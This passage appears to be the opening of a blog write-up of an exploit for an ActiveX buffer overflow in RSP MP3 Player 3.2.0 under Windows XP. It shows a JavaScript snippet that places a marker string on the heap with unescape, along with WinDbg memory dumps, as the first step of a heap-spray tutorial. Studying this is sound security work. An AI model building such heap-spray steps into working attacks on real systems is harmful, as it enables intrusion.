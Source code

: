 ```yaml
---
layout:     post
title:      RSP MP3 Player - OCX ActiveX Buffer Overflow
author:     wooy0ung
tags:       heapspray
category:   exploit
---
```


- 目录
{:toc #markdown-toc}

>[Analysis Environment]  
>guest machine: Windows XP sp3  
>host machine: Windows 10  
>vulnerability application: RSP MP3 Player 3.2.0  
>necessary tools: [[Utilu IE Collection 1.7.2.1]](http://utilu.com/IECollection/)、[[COMRaider]](https://github.com/dzzie/COMRaider)、Windbg  



## 0x001 Introduction

Test this script.
```
<html>
<body>
<script language='javascript'>
 
    var name = unescape('%u6f77%u796f%u7530%u676e');
    alert("allocation done");
 
</script>
</body>
</html>
```

Obviously, I placed a ASCII string "wooy0ung" on the heap. Please use unescape method, because I want to allocate ASCII string.
```
0:009> s -a 0x00000000 L? 7fffffff "wooy0ung"
001b69b8  77 6f 6f 79 30 75 6e 67-2d 31 38 37 35 61 37 00  wooy0ung-1875a7.
001b8014  77 6f 6f 79 30 75 6e 67-00 00 00 00 f4 8e 53 e8  wooy0ung......S.
0:009> d 001b8014
001b8014  77 6f 6f 79 30 75 6e 67-00 00 00 00 f4 8e 53 e8  wooy0ung......S.
001b8024  7a 01 0c ff c0 47 1b 00-90 4a 1b 00 60 44 1b 00  z....G...J..`D..
001b8034  00 00 01 00 f7 8e 53 e8-00 01 0c ff 04 00 00 00  ......S.........
001b8044  c8 a6 23 03 00 00 00 00-8c 60 1c 03 fa 8e 53 e8  ..#......`....S.
001b8054  00 01 08 ff 90 4a 1b 00-90 44 1b 00 00 47 1b 00  .....J...D...G..
001b8064  60 44 1b 00 fd 8e 53 e8-00 01 08 ff 0c 00 00 00  `D....S.........
001b8074  58 dc 1e 00 14 00 00 00-00 20 00 00 e0 8e 53 e8  X........ ....S.
001b8084  3f 01 0c ff 2e 00 68 00-74 00 6d 00 6c 00 00 00  ?.....h.t.m.l...
```
